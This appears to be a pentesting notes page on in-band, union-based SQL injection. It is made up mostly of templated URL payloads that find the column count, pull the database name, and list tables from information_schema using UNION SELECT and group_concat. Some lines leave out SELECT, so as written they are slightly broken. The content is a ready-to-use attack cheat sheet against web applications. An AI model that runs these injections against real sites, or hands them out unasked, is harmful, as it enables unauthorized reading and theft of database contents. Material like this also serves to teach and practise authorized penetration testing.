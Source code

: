 Refers to the same method of communication being used to exploit the vulnerability and also receive the results.

### <mark style="color:purple;">Union-Based</mark>

Use the SQL `UNION` operator to return additional results to the page, letting the extraction of large amounts of data.

#### <mark style="color:orange;">Case 1</mark>

* Determining the number of columns

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$value UNION SELECT 1
$url/query?$column=$value UNION SELECT 1,2   #Try with a extra value
$url/query?$column=$value UNION SELECT 1,2,3 #Try Until there's no message error
#This won't show a message error when the number of columns coincides  
```
{% endcode %}

***

* Change query value

<pre class="language-sql" data-overflow="wrap" data-line-numbers><code class="lang-sql"><strong>$url/query?$column=$changedvalue UNION SELECT $found
</strong><strong>#Change until no results are shown to determine the value
</strong></code></pre>

{% hint style="info" %}
`$found` is the union value that has been caught in the previous step
{% endhint %}

***

* Check database name

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue UNION $found,database() #Try to get database
#This will return the name of the DB we are searching
```
{% endcode %}

***

* Check information schema for DB and tables information

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue UNION $found,group_concat(table_name) FROM information_schema.tables WHERE table_schema = '$dbfound'
#This will return a string with all tables of the database
```
{% endcode %}

{% hint style="info" %}
`$dbfound`is the result of the previous query
{% endhint %}
